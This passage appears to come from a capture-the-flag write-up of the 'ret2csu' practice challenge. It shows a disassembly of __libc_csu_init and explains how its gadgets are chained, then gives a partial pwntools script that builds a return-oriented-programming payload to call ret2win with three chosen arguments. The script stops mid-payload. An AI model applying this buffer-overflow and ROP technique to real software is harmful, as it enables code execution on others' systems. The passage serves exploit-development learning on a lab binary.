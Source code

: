 ```
-----
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:    add    rbx,0x1
   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret
End of assembler dump.
```

after `call` instruction there's some conditions to be met to reach `ret` instruction,
we have to make `rbp` equal to `rbx` otherwise it will jump back to `mov` and
call again after that we just have to add junks to fill for pop instructions, 
we also have to account for `add rsp,0x8` with some junks too.

let's craft the final expliot

```python
from pwn import *

p = process("./ret2csu")

gdb.attach(p, """break ret2win""")

# pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
pop = 0x40069a

# mov rdx, r15; mov rsi, r14; mov edi, r13d; call qw ptr [r12+rbx*8]
mov = 0x400680

ret2win = 0x400510
init_ptr = 0x600e38

arg_1 = 0xdeadbeefdeadbeef
arg_2 = 0xcafebabecafebabe
arg_3 = 0xd00df00dd00df00d

padding = b"x" * 40

payload = flat([
        padding,
        pop,
        0, # rbx
        1, # add one so that rbp is equal to rbx after add rbx,0x1
        init_ptr,
        0,
        arg_2,
        arg_3,
        mov,
        0, # add rsp,0x8 padding
        0,
        0,
        0,
        0,
        0,
```
